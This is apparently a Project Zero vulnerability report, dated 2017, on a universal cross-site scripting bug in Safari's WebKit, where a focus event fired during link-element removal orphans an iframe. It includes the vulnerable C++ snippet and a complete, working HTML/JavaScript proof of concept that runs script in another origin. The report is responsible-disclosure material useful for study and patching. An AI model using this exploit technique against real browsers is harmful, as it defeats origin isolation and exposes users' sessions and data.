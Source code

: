 # UXSS via a focus event and a link element

### Reported by <mailto:lokihardt@google.com>, Feb 9 2017

This is somewhat similar to [https://crbug.com/663476](https://crbug.com/663476).

Here's a snippet of `Container::replaceAllChildren`.

```cpp
while (RefPtr<Node> child = m_firstChild) {
    removeBetween(nullptr, child->nextSibling(), *child);
    notifyChildNodeRemoved(*this, *child);
}
```

If the location hash value is set, the page will give focus to the associated element. However, if there is a stylesheet that has not been loaded yet, the focusing will be delayed until the stylesheet gets loaded. The problem is that when the link element linked to the last pending stylesheet is removed from the parent, the `notifyChildNodeRemoved` function may end up to fire a focus event which runs arbitrary JavaScript code, which can make an iframe(`g` in the PoC) that has an attached frame but has no parent.

Tested on Safari 10.0.3(12602.4.8).

PoC:

```html
<html>

<head>
</head>

<body>
  <script>
    let f = document.body.appendChild(document.createElement('iframe'));
    let inp = f.contentDocument.head.appendChild(document.createElement('input'));
    let link = inp.appendChild(document.createElement('link'));
    link.rel = 'stylesheet';
    link.href = 'data:,aaaaazxczxczzxzcz';

    let btn = f.contentDocument.body.appendChild(document.createElement('button'));
    btn.id = 'btn';
    btn.onfocus = () => {
      btn.onfocus = null;

      window.g = inp.appendChild(document.createElement('iframe'));
      window.g.onload = () => {
        window.g.onload = null;

        window.g.src = 'javascript:alert(location)';
        let xml = `
<svg xmlns="http://www.w3.org/2000/svg">
<script>
document.documentElement.appendChild(parent.g);

</sc` + `ript>
<element a="1" a="2" />
</svg>`;

        let h = document.body.appendChild(document.createElement('iframe'));
        h.src = URL.createObjectURL(new Blob([xml], {
          type: 'text/xml'
        }));
      };

      window.g.src = 'https://abc.xyz/';
    };

    f.contentWindow.location.hash = 'btn';
    inp.textContent = '';
  </script>
</body>

</html>
```

Link: https://bugs.chromium.org/p/project-zero/issues/detail?id=1119
